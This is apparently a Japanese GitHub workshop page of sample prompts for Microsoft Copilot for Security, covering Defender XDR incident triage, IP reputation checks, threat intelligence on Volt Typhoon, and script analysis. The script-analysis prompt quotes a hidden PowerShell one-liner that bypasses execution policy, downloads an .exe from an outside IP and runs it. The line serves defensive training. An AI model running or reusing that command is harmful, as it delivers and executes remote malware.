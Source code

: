 ![Security CoPilot Logo](https://github.com/ninjyanaka/Copilot-For-Security/blob/main/Promptbook%20samples/ic_fluent_copilot_64_64%402x.png)
# Microsoft Copilot for Security Workshop case1

***
&nbsp;
## ハンズオンシナリオ➁ インシデント分析編

 ```
Microsoft Defender XDRから、優先すべき重大度の高いインシデントの上位5件を教えて。
 ```
 ```
Defender XDR Incident 50 について教えて
 ```
 ```
Defender XDR Incident 50 に関連するエンティティについて教えて
 ```
 ```
MDTIを使用して、このIPアドレス 185.220.101.86 のレピュテーションスコアを教えて
 ```
 ```
VirusTotal を使用して、このIPアドレス 185.220.101.86 のレピュテーションスコアを教えて
 ```
 ```
調査結果をエグゼクティブ・レポートにまとめて
 ```

***
&nbsp;
## ハンズオンシナリオ➁　スクリプト分析編

 ```
以下のスクリプトは、どのような動作をするのか、順を追って説明し、その意図を推測してください
Script:powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference = 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://185.82.217.3/1.exe', 'C:\\test-WDATP-test\\invoice.exe');Start-Process 'C:\\test-WDATP-test\\invoice.exe'\\invoice.exe'
 ```

***
&nbsp;
## ハンズオンシナリオ➁　脅威インテリジェンス編

 ```
私はセキュリティエンジニアです。攻撃アクターグループ Volt Typhoon　について教えて
 ```

